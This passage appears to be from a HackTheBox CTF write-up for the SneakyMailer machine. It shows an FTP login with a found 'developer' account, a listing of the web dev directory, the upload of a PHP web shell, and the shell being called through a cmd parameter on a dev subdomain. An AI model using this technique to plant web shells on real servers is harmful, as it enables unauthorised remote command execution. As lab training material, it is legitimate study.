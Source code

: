 ```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Looking through the FTP server, we are able to find a dev directory and in the dev directory, we notice that it contains the files that are accessible from the websites that we have explored earlier.

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jun 30  2020 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
```

Next, what we can do is to create a php web shell and upload it onto the FTP server (NOTE: Since we can see that the webserver is coded in php, we shall use php webshell here)

```
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
31 bytes sent in 0.00 secs (540.5971 kB/s)
```

We then realize that we are unable to find the webshell at http://sneakycorp.htb/shell.php?cmd=id. Recalling that we have uploaded the webshell to the dev directory, we now try to access the webshell at http://dev.sneakycorp.htb/shell.php?cmd=id
![webshell](https://github.com/joelczk/writeups/blob/main/HTB/Images/SneakyMailer/webshell.png)
